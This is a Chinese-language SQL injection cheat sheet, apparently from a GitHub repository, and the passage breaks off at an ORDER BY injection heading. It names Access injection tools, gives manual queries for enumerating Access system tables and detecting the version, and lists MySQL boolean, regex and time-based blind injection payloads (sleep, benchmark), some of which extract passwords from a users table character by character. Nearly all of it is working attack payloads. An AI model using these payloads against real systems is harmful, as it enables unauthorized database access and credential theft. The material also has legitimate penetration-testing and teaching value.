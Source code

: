 ### 0105 Access

#### 工具注入

* SQLmap
* SuperSQLinj
* 明小子
* 啊D

#### 手工注入

* 用户表：`SELECT Name FROM msysobjects WHERE Type = 1 and flags = 0`
* 所有表：`SELECT Name FROM msysobjects WHERE Type = 1`
* 判断版本：
    - `SELECT NULL FROM MSysModules2 '97`
    - `SELECT NULL FROM MSysAccessObjects '97 2000`
    - `SELECT NULL FROM MSysAccessXML '2000 2002-2003`
    - `SELECT NULL FROM MSysAccessStorage '2002-2003 2007`

## 02 MySQL 注入进阶技巧

### 一般盲注

#### 使用 ASCII

* `AND ascii(substring((SELECT password FROM users where id=1),1,1))=49`
* `left(database(),1)>'s'`  // database()数据库名函数，left(a, b)a字符串的左起b位
* `ascii(substr((SELECT table_name FROM information_schema.tables WHERE tables_schema=database() limit 0,1),1,1))=101 --+`  //substr(a, b, c)从b位置开始，截取字符串a的c长度。Ascii()将某个字符转换为ascii值
* `ascii(substr((SELECT database()),1,1))=98`
* `ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20) FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23`  // MID(a.b.c)从位置b开始，截取a字符串的c位，ORD()函数同ascii(），将字符转为ascii值

#### 使用正则表达式

 `and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)`

### 时间盲注

时间盲注又名延时注入

* `sleep()`

`if(ascii(substr(database(),1,1))>115,0,sleep(5))%23` // if判断语句，条件为假，执行sleep

* `benchmark()`

`UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) FROM (select database() as current) as tb 1;` // BENCHMARK(count, expr)用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的CPU资源

### Order by 注入
